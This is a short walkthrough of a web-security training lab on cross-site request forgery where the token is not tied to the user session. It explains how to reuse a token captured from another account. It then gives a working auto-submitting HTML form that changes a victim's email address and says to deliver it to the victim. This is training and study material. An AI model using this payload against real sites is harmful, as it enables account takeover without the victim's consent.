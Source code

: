 # Lab: CSRF where token is not tied to user session

Login with the creds provided and turn on the proxy. Initiate an email address change and intercept the request. Copy the CSRF token and drop the request. Logout and log back in with the other creds provided. Again, initiate a change request and intercept the request. Edit it to use the previously captured token and forward it. Observe that the request is accepted.

Repeat the first half of the process to get a fresh token and include it in the exploit payload:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://acfb1fa41e9dc318c0793883007d006b.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;com" />
      <input type="hidden" name="csrf" value="vQZBhVOwM2gmkIJMtk9tLWGJCZfy0vwC" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
  </body>
</html>
```

Deliver it to the victim to complete the lab.